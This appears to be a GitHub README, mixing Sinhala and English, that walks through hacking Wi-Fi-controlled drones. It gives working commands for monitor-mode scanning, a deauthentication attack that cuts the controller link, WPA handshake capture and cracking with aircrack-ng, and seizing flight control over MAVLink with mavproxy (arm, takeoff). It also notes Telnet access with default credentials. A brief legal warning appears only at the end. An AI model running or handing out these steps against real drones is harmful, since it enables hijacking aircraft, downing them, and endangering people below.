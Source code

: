 Wi-Fi adapter එකක් භාවිතා කරලා **Wi-Fi-controlled drones** scan කරලා, එයට attack කරලා exploit කිරීමක් කළ හැක. මේක **Wi-Fi Hacking + MAVLink Attacks** එකට සම්බන්ධයි.  

---

<p align="center"> <img src="https://github.com/chamidu200/Drone-Hack-/blob/bd1f26d202a029bec1012f000adb353731170a5d/Drones.jpg" alt="chamidu200" /> </p>

## **🔍 Step 1: Drone එක Scan කිරීම (Wi-Fi Hunting)**  
Wi-Fi adapter එක **monitor mode** එකට set කරලා nearby drones scan කළ හැක.  

### **1️⃣ Enable Monitor Mode (Linux/Kali)**  
```bash
airmon-ng start wlan0
```
- **`wlan0mon`** (new interface) යනු monitor mode වල ඇති Wi-Fi adapter එකයි.

### **2️⃣ Scan for Drone Wi-Fi Signals**
```bash
airodump-ng wlan0mon
```
> **Common Drone Wi-Fi Names:**  
> - **DJI drones** → `DJI_xxxxxx`  
> - **Parrot drones** → `Parrot_xx`  
> - **Other Drones** → `Drone_xx`, `FPV_xx`, `UAV_xx`  

### **3️⃣ Find the Drone’s Channel & BSSID**
Once the drone's Wi-Fi is detected, note its:  
- **BSSID (MAC Address)**  
- **Channel (CH)**  

```bash
airodump-ng -c <CHANNEL> --bssid <BSSID> -w drone_capture wlan0mon
```

---

## **📡 Step 2: Drone Exploitation Methods**  

### **🔥 Method 1: Wi-Fi Deauthentication Attack (Kick the Controller Off)**  
```bash
aireplay-ng -0 0 -a <BSSID> wlan0mon
```
- This will disconnect the drone from its controller.
- If the drone has no return-to-home feature, it may hover or land.

### **🔥 Method 2: Wi-Fi Password Cracking**  
If the drone is using **WPA/WPA2 encryption**, capture the handshake:  
```bash
airmon-ng start wlan0
airodump-ng -c <CHANNEL> --bssid <BSSID> -w drone_wifi wlan0mon
```
After capturing the handshake, use brute force:  
```bash
aircrack-ng -w rockyou.txt -b <BSSID> drone_wifi.cap
```
Once cracked, connect to the drone’s Wi-Fi and control it via mobile apps or MAVProxy.

### **🔥 Method 3: MAVLink Exploits (If Open Ports Exist)**  
After connecting to the drone’s Wi-Fi, scan for open MAVLink ports:  
```bash
nmap -p 23,80,14550,5555 <DRONE_IP>
```
If port `14550` is open (MAVLink), take control:  
```bash
mavproxy.py --master=udp:<DRONE_IP>:14550
```
```bash
mode GUIDED
arm throttle
takeoff 10
```
> **If Port 23 (Telnet) is open:**  
```bash
telnet <DRONE_IP>
```
> - Some Parrot drones allow remote access with **default credentials**.

---

## **⚠️ Legal Warning**  
🚨 **Unauthorized access to a drone is illegal in most countries.**  
මෙය **CTF challenges, cybersecurity research, and ethical pentesting** සඳහා පමණක් භාවිතා කරන්න. Unauthorized hacking **FAA, FCC, GDPR laws වලට එරෙහි වේ**.  

